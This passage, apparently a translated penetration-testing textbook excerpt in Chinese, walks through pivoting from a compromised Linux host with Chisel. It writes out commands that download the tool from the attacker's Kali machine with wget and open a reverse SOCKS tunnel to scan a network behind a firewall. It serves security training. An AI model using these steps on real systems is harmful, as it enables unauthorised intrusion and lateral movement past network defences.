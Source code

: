 在这个示例中，我将使用 Chisel。

记下我的 Kali 系统的当前 IP 地址后，我将在同一目录下启动一个 HTTP 服务器，将 Chisel 传输到目标主机，方法是在该目录下运行`python3 -m http.server`命令。

在我作为 `user6` 拥有 shell 权限的目标系统上，我将使用 `wget` [`10.0.0.66:8000/chisel`](http://10.0.0.66:8000/chisel) 命令将 Chisel 文件下载到 `/tmp` 目录。在运行之前，您必须使用 `chmod +x chisel` 命令使其具备可执行权限。您还必须在 Kali 上运行相同的命令，因为您需要在连接的两端都运行 Chisel。

接下来，使用 **./chisel server -p 8001 –reverse** 命令在 Kali 上启动 Chisel。然后，在目标（跳板）系统上运行 `./chisel client 10.0.0.66:8001 R:1080:socks` 命令。确保根据需要替换为您自己的 IP 地址。

让我们看看实际操作。在以下截图中，Kali 的 IP 地址为 `10.0.0.66`。`10.0.0.149` 上的防火墙在端口 `80` 上暴露了一个 Web 服务器。该 Web 服务器位于防火墙的另一侧，IP 地址为 `10.1.1.103`。我将使用 Chisel 的 SOCKS 代理扫描位于 `10.1.1.0/24` 网络上的 Windows 主机，该网络位于防火墙的另一侧。

下图显示了在运行命令启动 Chisel 服务器之前，使用 Python 传输 Chisel 文件：

![图 12.12：Chisel 从 Kali 提供给跳板目标，并启动服务器端](img/B22229_12_12.jpg)

图 12.12：Chisel 从 Kali 提供给跳板目标，并启动服务器端

下图演示了在目标系统上执行的命令，用于传输 Chisel 并启动连接的客户端：

![图 12.13：Chisel 在跳板主机上以客户端模式启动，完成反向 SOCKS 连接](img/B22229_12_13.jpg)
